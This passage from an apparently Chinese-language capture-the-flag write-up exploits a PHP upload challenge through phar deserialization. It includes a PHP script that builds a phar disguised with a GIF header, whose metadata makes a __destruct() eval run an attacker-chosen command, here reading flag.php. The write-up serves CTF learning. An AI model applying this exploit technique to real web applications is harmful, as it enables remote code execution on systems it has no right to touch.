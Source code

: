 ```php
if(@file_get_contents($uploader)){
	echo "下面是你上传的文件：<br>".$uploader."<br>";
	echo file_get_contents($uploader);
}
 ```

`file_get_contents()`使`$uploader`对象通过`__toString()`返回`$this->Filename`，由于phar://伪协议可以不依赖`unserialize()`直接进行反序列化操作，加之`$this->Filename`可控，因此此处`$this->Filename`配合phar反序列化后，`__destruct()`方法内`eval($this->cmd);`最终导致了远程代码执行。
由于`__destruct()方法`中，想要`eval($this->cmd);`的前提条件是`$this->token`和`$_SESSION['user']`相等。

在`__construct()`方法中有以下两行

```php
$sandbox = getcwd()."/uploads/".md5($_SESSION['user'])."/";
$this->Filename = $sandbox.$_SESSION['user'].$ext;
```

随便上传一个txt，回显

![avatar](https://k1ng0fic3.github.io/images/sql25.png)

得到的`GXY939d6b01691234e49fa8ec7eafb79a55`就是$_SESSION['user']

然后在本地生成phar文件：

```php
<?php
class Uploader{
	public $Filename;
	public $cmd;
	public $token;
}

$o = new Uploader();
$o->cmd = 'highlight_file("/var/www/html/flag.php");'; //里面的命令不要出现单引号否侧生成phar会报错
$o->Filename = '1';
$o->token = 'GXY939d6b01691234e49fa8ec7eafb79a55'; //$_SESSION['user']
echo serialize($o);

$phar = new Phar("phar.phar");
$phar->startBuffering();
$phar->setStub("GIF89a"."<?php __HALT_COMPILER(); ?>"); //设置stub，增加gif文件头
$phar->setMetadata($o); //将自定义meta-data存入manifest
$phar->addFromString("1.txt", "1"); //添加要压缩的文件
$phar->stopBuffering();
```

![avatar](https://k1ng0fic3.github.io/images/sql26.png)

将此phar文件上传，获取路径

![avatar](https://k1ng0fic3.github.io/images/sql27.png)

`/var/www/html/uploads/74def8c80bd66ac6e4585ea8fb35c9f4/GXY939d6b01691234e49fa8ec7eafb79a55.txt`
